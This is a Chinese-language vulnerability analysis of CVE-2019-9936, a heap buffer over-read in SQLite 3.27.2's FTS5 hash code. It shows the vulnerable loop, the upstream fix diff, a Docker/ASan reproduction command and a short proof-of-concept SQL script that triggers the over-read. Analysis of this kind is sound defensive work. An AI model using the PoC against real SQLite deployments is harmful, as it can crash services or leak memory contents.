


# CVE-2019-9936 CWE-125 SQLite 堆缓冲区超读

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **CWE-125（Out-of-bounds Read）**

## 漏洞原理

SQLite 的 FTS5 模块在处理长前缀查询时，没有正确限制查询字符串的长度，导致在内存访问过程中可能超出已分配的缓冲区范围，从而引发堆缓冲区超读。

## 漏洞定位

在 ext/fts5/fts5_hash.c 文件负责哈希表的操作和词项的匹配处理。

第 445 行的循环用于处理 FTS5 哈希表中的词项查找和合并。在第 448 行匹配词项部分，在执行词项匹配时，如果 `pTerm` 非零，代码直接使用 `memcmp` 来比对当前条目的词项和传入的 `pTerm`。这里的 `memcmp` 使用了 `nTerm` 字节长度来进行比对，没有处理边界条件。如果词项的长度（`pIter->nKey`）比 `nTerm` 短，代码仍然执行了 `memcmp`，可能会导致读取超出目标词项的内存（即堆缓冲区超读）。这种情况下，`memcmp` 可能读取到无效内存，泄漏敏感信息，甚至导致崩溃。

```c
// fts5_hash.c 文件，第 445 行
for(iSlot=0; iSlot<pHash->nSlot; iSlot++){
  Fts5HashEntry *pIter;
  for(pIter=pHash->aSlot[iSlot]; pIter; pIter=pIter->pHashNext){
// ***** 448 行 ***** ⚠️漏洞点 *****
    if( pTerm==0 || 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm) ){
      Fts5HashEntry *pEntry = pIter;
      pEntry->pScanNext = 0;
      for(i=0; ap[i]; i++){
        pEntry = fts5HashEntryMerge(pEntry, ap[i]);
        ap[i] = 0;
      }
    }
  }
}
```

## 漏洞修复

增加了一个额外的检查，确保只有当当前条目的词项长度（`pIter->nKey`）足够长，且与 `nTerm` 的长度匹配时，才执行 `memcmp`。如果 `pTerm` 非零，则只有在 `pIter->nKey + 1 >= nTerm` 时才进行匹配。这意味着，只有当当前词项的长度足够大，且大于等于查找词项长度时，才会进行词项比较。

```diff
Index: ext/fts5/fts5_hash.c
==================================================================
--- ext/fts5/fts5_hash.c
+++ ext/fts5/fts5_hash.c
@@ -454,11 +454,13 @@
   memset(ap, 0, sizeof(Fts5HashEntry*) * nMergeSlot);
 
   for(iSlot=0; iSlot<pHash->nSlot; iSlot++){
     Fts5HashEntry *pIter;
     for(pIter=pHash->aSlot[iSlot]; pIter; pIter=pIter->pHashNext){
-      if( pTerm==0 || 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm) ){
+      if( pTerm==0 
+       || (pIter->nKey+1>=nTerm && 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm))
+      ){
         Fts5HashEntry *pEntry = pIter;
         pEntry->pScanNext = 0;
         for(i=0; ap[i]; i++){
           pEntry = fts5HashEntryMerge(pEntry, ap[i]);
           ap[i] = 0;
```

## 影响版本

SQLite = 3.27.2

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.27.2，其中在编译时开启了 ASAN 内存检测

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.27.2:*:*:*:*:*:*:*
```



## 漏洞复现

进入容器命令行，执行 PoC 文件，可以看到 ASan 检测到了 缓冲区溢出（`heap-buffer-overflow`）。

```bash
docker exec -it sqlite-3.27.2 sqlite3 test_db ".read CVE-2019-9936-PoC.sql"
```



## PoC分析

```sql
CREATE VIRTUAL TABLE t13 USING fts5(x, detail='none');

BEGIN;
INSERT INTO t13 VALUES('AAAA');
SELECT * FROM t13('BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB*');
END;
```

创建了一个名为 `t13` 的虚拟表，使用了 `fts5` 模块。这个表包含一个列 `x`，并且指定 `detail='none'`，意味着不保存详细的元数据。之后在事务中执行了一个 前缀查询，通过提供一个非常长的字符串 `'BBBBBBBBBBBB...*'`，目的是进行一个以 `'BBBB'` 开头的查询。`*` 是 FTS5 的通配符，用来表示以 `'BBBB'` 开头的所有匹配项。这会触发 FTS5 模块的全文搜索功能，查找以 `BBBB` 开头的所有条目。

当执行长前缀查询时，`fts5HashEntrySort` 等函数可能尝试从哈希表中读取比实际分配的内存更多的字节，导致 堆缓冲区超读。

## 参考链接

[NVD - CVE-2019-9936](https://nvd.nist.gov/vuln/detail/CVE-2019-9936)

[SQLite: Check-in [b3fa58dd74\]](https://sqlite.org/src/vinfo/b3fa58dd7403dbd4?diff=2&proof=559498560)
